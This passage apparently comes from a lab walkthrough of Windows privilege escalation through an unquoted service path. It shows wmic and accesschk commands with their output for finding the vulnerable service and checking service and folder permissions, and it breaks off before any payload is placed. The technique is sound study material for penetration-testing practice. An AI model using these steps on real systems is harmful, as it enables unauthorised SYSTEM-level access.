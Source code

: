To abuse this if we can create either *Program.exe* or *Some.exe* the it will be executed as system.   
1. Find unquoted services:
> wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\\\" |findstr /i /v """
```powershell
C:\PrivEsc\tools>wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\" |findstr /i /v """
DisplayName                                                                         Name                                      PathName                                                                                                                       StartMode  
LSM                                                                                 LSM                                                                                                                                                                      Unknown    
NetSetupSvc                                                                         NetSetupSvc                                                                                                                                                              Unknown    
Unquoted Path Service                                                               unquotedsvc                               C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe                                                    Manual     


```
The service *unquotedsvc* has the path of *C:\Program Files\Unquoted Path Service\ Common Files\unquotedpathservice.exe*   

2. Check permissions on vulnerable service:
> accesschk.exe /accepteula -ucqv user unquotedsvc
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -ucqv user unquotedsvc
.\accesschk.exe /accepteula -ucqv user unquotedsvc
R  unquotedsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
Current permissions give us the ability start and stop the service.    

3. Check File permissions at each level:
> accesschk.exe /accepteula -uwdq C:\   
> accesschk.exe /accepteula -uwdq "C:\Program Files\\"   
> accesschk.exe /accepteula -uwdq "C:\Program Files\\Unquoted Path Service\\"   
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq C:\
C:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM

C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq "C:\Program Files"
.\accesschk.exe /accepteula -uwdq "C:\Program Files"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```